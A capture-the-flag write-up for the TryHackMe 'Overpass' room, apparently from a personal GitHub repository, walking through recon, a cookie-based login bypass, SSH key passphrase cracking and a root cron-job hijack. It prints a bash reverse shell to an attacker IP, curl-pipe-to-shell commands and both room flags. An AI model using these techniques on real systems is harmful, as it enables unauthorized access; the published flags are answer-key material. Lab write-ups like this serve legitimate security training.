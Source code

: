 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Starting off with some `nmap` scans:
```shell-session
$ sudo nmap -sV -vv --top-ports 2000 -oN nmap_scan.txt 10.10.127.231
...

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Vuln script scan:
$ sudo nmap -sC -vv --script=vuln -p22,80 -oN nmap_vulnscan.txt 10.10.127.231
...
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|   /admin.html: Possible admin folder
|   /css/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-jsonp-detection: 
| The following JSONP endpoints were detected: 
|_/main.js
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

Nothing interesting in the results from the `vuln` script. Visiting the `/downloads/` page for the target, we're presented with some download options, one of which allows us to download the source code for the password manager. The source code gives us the following information:

1. The password manager encrypts it's passwords using `ROT47`.
2. The program stores all the passwords on the machine rather than a remote server.

This aside, we can probably try to brute force the `/admin/` login page, but that's a waste of time. Inspecting the `/admin/` page shows that it uses 3 files: `main.js`, `cookie.js` and  `login.js`. Upon further inspection of `login.js` we come across the `login()` function:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The function's logic dictates that if the credentials supplied are valid, it sets the `SessionToken` cookie. We can exploit this behavior (given that the server doesn't validate the cookie) by editing the cookie. Once we set the `SessionToken` cookie to some random stuff, we're taken to the following page:
![](admin_success.png)

We now have a ssh private key as well as a username to go with (`james`). We can use `ssh` to log into the machine as James.

## Gaining Access

The ssh key given also requires a passphrase, we'll try to bruteforce it using `ssh2john`:
```shell-session
$ ssh2john sshkey.rsa > sshkey.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ./sshkey.hash
...
james13          (sshkey.rsa)
```

With this passphrase, we can now `ssh` into the machine as james:
```shell-session
$ ssh -i sshkey.rsa james@10.10.127.231
Enter passphrase for key 'sshkey.rsa':
...

james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```

And thus, we have the user flag!
>  Hack the machine and get the flag in user.txt 
> 
> Answer: `thm{65c1aaf000506e56996822c6281e6bf7}`

## Privilege Escalation

With access to the machine as james, we can move onto getting root privileges. Let's have a look at the `todo.txt` file in James' home directory:
```shell-session
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

For the getting root privileges, we can make use of the convenient `LinPeas` script:
```shell-session
james@overpass-prod:~$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
...

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

There's a `cron` job that runs as root. Unfortunately we cannot edit this script with the current user's privileges. We can, however, redirect the domain `overpass.thm` to something else and hijack the process from there:
```shell-session
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.14.45.44 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Editing the `/etc/hosts` file and redirecting the overpass.thm domain to our own machine, we can make the cron job download a custom script (a reverse shell in this case) and execute it as root. 
```shell-session
# On our machine:
$ mkdir -p downloads/src 
$ cd downloads/src
$ echo "bash -i >& /dev/tcp/10.14.45.44/4444 0>&1" > buildscript.sh
$ chmod +x /downloads/src/buildscript.sh
$ python3 -m http.server 80 

# In a different teminal session:
$ nc -nvlp 4444
root@overpass-prod:~# whoami
root

root@overpass-prod:~# ls
buildStatus
builds
go
root.txt
src

root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

> Escalate your privileges and get the flag in root.txt
> 
> Answer: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Overpass](https://tryhackme.com/room/overpass)
